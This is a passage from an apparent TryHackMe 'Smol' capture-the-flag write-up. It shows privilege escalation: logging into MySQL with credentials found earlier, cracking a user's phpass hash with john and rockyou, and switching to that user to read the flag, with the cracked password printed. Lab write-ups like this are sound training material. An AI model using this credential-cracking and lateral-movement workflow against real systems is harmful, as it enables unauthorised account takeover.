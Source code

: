 Great! I had identified an initial access vector and used it to began privileges escalation.

## Privilege Escalation diego

Using the previously discovered data base credentials, I successfully logged into the MySQL database. I found user password hashes and attempted to crack them using `john`. I successfully cracked  Diego's hash, switched to the Diego user, and retrieved the user flag:
```bash
www-data@smol:/var/www/wordpress/wp-admin$ mysql -u wpuser -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 17411
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

![Database Access](/assets/img/tryhackme/Smol/thm_smol_6.jpg)

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 512/512 AVX512BW 16x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (?)     
1g 0:00:00:07 DONE (2025-03-18 07:59) 0.1335g/s 175953p/s 175953c/s 175953C/s sandr1ta..sammyak
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.

diego@smol:/var/www/wordpress/wp-admin$ cd /home/diego/
diego@smol:~$ cat user.txt 
  [removed]
```

## Privilege Escalation think
